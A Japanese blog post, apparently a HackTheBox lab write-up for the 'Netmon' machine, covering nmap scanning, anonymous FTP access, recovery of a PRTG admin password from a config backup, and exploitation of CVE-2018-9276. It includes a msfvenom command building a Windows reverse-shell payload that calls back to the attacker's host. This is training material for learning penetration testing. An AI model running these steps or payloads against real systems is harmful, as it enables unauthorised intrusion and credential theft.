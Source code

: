 ```yaml
---
title: 【Easy/Windows】Netmon Writeup(HackTheBox)
date: "2021-11-24"
template: "post"
draft: false
slug: "hackthebox-windows-netmon"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「BountyHunter」のWriteUpです。"
socialImage: "/media/cards/no-image.png"
---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="http://www.hackthebox.eu/badge/image/327080" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「netmon」のWriteUpです。

![image-10.png](../../static/media/2021-11-24-hackthebox-windows-netmon/image-10.png)

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [FTPログイン](#ftpログイン)
- [リバースシェルの取得](#リバースシェルの取得)
- [認証情報の取得](#認証情報の取得)
- [エクスプロイト](#エクスプロイト)
- [まとめ](#まとめ)

## 探索

とりあえずいつもの通りスキャンを試していきます。

``` bash
sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.152  targethost.htb/g' /etc/hosts
nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
```

出力結果はこんな感じでした。

``` bash
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 19:35 JST
Stats: 0:01:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.94% done; ETC: 19:38 (0:00:57 remaining)
Warning: 10.10.10.152 giving up on port because retransmission cap hit (6).
Nmap scan report for targethost.htb (10.10.10.152)
Host is up (0.68s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE    SERVICE      VERSION
21/tcp  open     ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp  open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open     msrpc        Microsoft Windows RPC
139/tcp open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
514/tcp filtered shell
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-11-23T10:44:51
|_  start_date: 2021-11-23T04:32:58
|_clock-skew: mean: 6m19s, deviation: 0s, median: 6m18s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.12 seconds
```

FTPのAnonymousログインが有効になっていることがわかります。

## FTPログイン

Anonymousログインを実施したところ、すぐにuserフラグを取得することができました。

``` bash
ftp targethost.htb
# anonymous / パスワードなし

dir Users/Public
lcd ./
cd Users/Public
dir
get user.txt
```

続いてrootフラグの取得のために、リバースシェルの獲得を目指します。

## リバースシェルの取得

nmapの結果から、`Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)`が稼働していることがわかります。

``` bash
80/tcp  open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
```

このバージョンの脆弱性について探したところ、`CVE-2018-9276`がヒットしました。

参考：[NVD - CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276)

`CVE-2018-9276`は、OSコマンドインジェクションの脆弱性で、RCEを実行することで管理者権限のシェルが取得できる脆弱性のようです。

これが刺さればrootも取れそうです。

## 認証情報の取得

`CVE-2018-9276`を使うには`Paessler PRTG bandwidth monitor`の認証情報が必要です。

というわけで認証情報を探索していきます。

デフォルトのクレデンシャル情報は`prtgadmin`のようですが、これは使えませんでした。

参考：[What's the login name and password for the PRTG web interface? How do I change it? | Paessler Knowledge Base](https://kb.paessler.com/en/topic/433-what-s-the-login-name-and-password-for-the-prtg-web-interface-how-do-i-change-it)

そこで、AnonymousログインしたFTPで認証情報を含むファイルがないか探索していきます。

大抵の場合、認証情報を探索するときはまず以下のいずれかのファイルをターゲットにしていきます。

- 設定情報が記載されたconfigファイル
- 認証情報が格納されたデータベースのダンプ
- 認証情報が平文で書き込まれているアクセスログ
- 過去の認証情報が記録されたバックアップファイルやシャドウコピー

今回は、`C:\ProgramData\`配下の`Paessler/PRTG Network Monitor`を探索しました。

FTPのdirコマンドでは、`C:\ProgramData\`のような隠しフォルダは一覧されないので注意が必要でした。

この中にある設定ファイルのバックアップを取得したところ、`prtgadmin / PrTg@dmin2018`という認証情報が取得できました。

しかし、この認証情報は残念ながら現在は使用できません。

configファイルの作成日時を見ると、`PrTg@dmin2018`が埋め込まれたバックアップファイルは2018年に作成されたのに対して、現在の設定ファイルは2019年に作成されていました。

そこで、`prtgadmin / PrTg@dmin2019`という認証情報を使用したところ、正常に認証されました。

## エクスプロイト

認証情報が取得できたところで、こちらのエクスプロイトコードを使用してrootを取得したいと思います。

参考：[CVE-2018-9276/exploit.py at main · A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/exploit.py)

手元の環境で上手く動作するように、msfvenomによるエクスプロイトモジュールは自分で作成し、エクスプロイトコードも一部改変しました。

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f dll > venom
```

これを実行したところ、無事にrootが取得できました。

## まとめ

非常にシンプルなマシンでした。